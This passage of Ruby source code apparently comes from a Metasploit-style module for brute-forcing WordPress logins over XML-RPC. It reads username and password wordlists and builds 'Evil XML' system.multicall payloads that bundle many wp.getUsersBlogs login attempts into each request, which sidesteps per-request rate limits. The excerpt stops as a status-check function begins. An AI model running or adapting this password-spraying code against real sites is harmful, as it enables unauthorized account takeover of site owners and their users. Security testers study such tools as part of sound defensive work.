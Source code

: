 ```
  def usernames
    File.readlines(datastore['WPUSER_FILE']).map {|user| user.chomp}
  end

  def passwords
    File.readlines(datastore['WPPASS_FILE']).map {|pass| pass.chomp}
  end

  #
  # XML Factory
  #
  def generate_xml(user)

    vprint_warning('Generating XMLs may take a while depends on the list file(s) size.') if passwords.size > 1500
    xml_payloads = []                          # Container for all generated XMLs
    # Evil XML | Limit number of log-ins to CHUNKSIZE/request due WordPress limitation which is 1700 maximum.
    passwords.each_slice(datastore['CHUNKSIZE']) do |pass_group|

      document = Nokogiri::XML::Builder.new do |xml|
        xml.methodCall {
          xml.methodName("system.multicall")
          xml.params {
          xml.param {
          xml.value {
          xml.array {
          xml.data {

        pass_group.each  do |pass|
          xml.value {
          xml.struct {
          xml.member {
          xml.name("methodName")
          xml.value { xml.string("wp.getUsersBlogs") }}
            xml.member {
            xml.name("params")
            xml.value {
            xml.array {
            xml.data {
            xml.value {
            xml.array {
              xml.data {
                xml.value { xml.string(user) }
                xml.value { xml.string(pass) }
          }}}}}}}}}
        end

          }}}}}}
      end

      xml_payloads << document.to_xml
    end

    vprint_status('Generating XMLs just done.')
    xml_payloads
  end

  #
  # Check target status
  #
  def check_wpstatus
    print_status("Checking #{peer} status!")
```
